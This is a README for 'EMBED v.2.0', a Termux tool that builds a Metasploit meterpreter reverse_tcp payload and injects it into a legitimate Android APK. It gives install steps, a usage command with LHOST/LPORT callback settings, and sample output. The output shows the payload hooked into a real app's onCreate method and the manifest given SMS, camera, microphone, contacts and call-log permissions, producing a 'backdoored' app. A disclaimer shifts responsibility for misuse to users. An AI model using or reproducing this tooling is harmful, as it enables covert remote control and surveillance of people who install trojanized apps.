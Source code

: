 # EMBED v.2.0
This tool creates a payload with metasploit framework and injected into a legitimate APK.

	DISCLAIMER
If the law is violated with it's use, this would be the responsibility of the user who handled it..
Ivam3 is not responsible for the misuse that can be given to everything that this laboratory entails

# REQUIREMENTS.
- Metasploit
- Java
- Keytool
- Apktool
- Jarsigner
- Apksigner
- Aapt

# INSTALLATION.
Clone this repositorie:

        $  apt install git -y
	$  git clone https://github.com/ivam3/embed.git

Give execute permissions to the configuration file setup:

	$  chmod +x setup

Now run the setup file:

	$  bash setup

This file will install and configure Termux with all the required libraries and dependencies including java for termux.

# JAVA FOR TERMUX.
For more information about java join to:

	https://github.com/ivam3/java

This software and related documentation are provided under license agreement containing in www.java.com. Please refer to http://java.com/licensereadme.

# USAGE

	root@user# ruby EMBED.rb PATH/to/legitim.apk -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4546

	   ._____ __  __ ____  _____ ____
	   | ____|  \/  | __ )| ____|  _ \
	   |  _| |TERMUX|  _ \|  _| | | | |
	   | |___| |\/| | |_) | |___| |_| |
	   |_____|_|  |_|____/|_____|____/ v.2
	   #:::::::: By Ivam3 ::::::::::::#

	[*]─➤ Generating msfvenom payload..
	[*]─➤ Signing payload..
	[*]─➤ Decompiling orignal APK..
	[*]─➤ Ignoring the resource decompilation..
	[*]─➤ Decompiling payload APK..
	[*]─➤ Locating onCreate() hook..
	[*]─➤ Copying payload files..
	[*]─➤ Loading original/smali/devian/tubemate/home/Main.smali and injecting payload..
	[*]─➤ Poisoning the manifest with meterpreter permissions..
	[+]─➤ Adding android.permission.SEND_SMS
	[+]─➤ Adding android.permission.RECEIVE_SMS
	[+]─➤ Adding android.permission.RECORD_AUDIO
	[+]─➤ Adding android.permission.CALL_PHONE
	[+]─➤ Adding android.permission.READ_CONTACTS
	[+]─➤ Adding android.permission.WRITE_CONTACTS
	[+]─➤ Adding android.permission.RECORD_AUDIO
	[+]─➤ Adding android.permission.CAMERA
	[+]─➤ Adding android.permission.READ_SMS
	[+]─➤ Adding android.permission.RECEIVE_BOOT_COMPLETED
	[+]─➤ Adding android.permission.SET_WALLPAPER
	[+]─➤ Adding android.permission.READ_CALL_LOG
	[+]─➤ Adding android.permission.WRITE_CALL_LOG
	[*]─➤ Rebuilding /sdcard/Download/tubemate-2-4-21.apk with meterpreter injection as data/data/com_backdoored.apk..
	[*]─➤ Signing data/data/com_backdoored.apk ..
	[*]─➤ Aligning data/data/com_backdoored.apk ..
	[+]─➤ Infected file legitim.apk_final ready.


This tool was written by Ivam3, <https://t.me/Ivam3byCinderella>
Some maintenance releases have been done by <https://t.me/Ivam3_Bot>


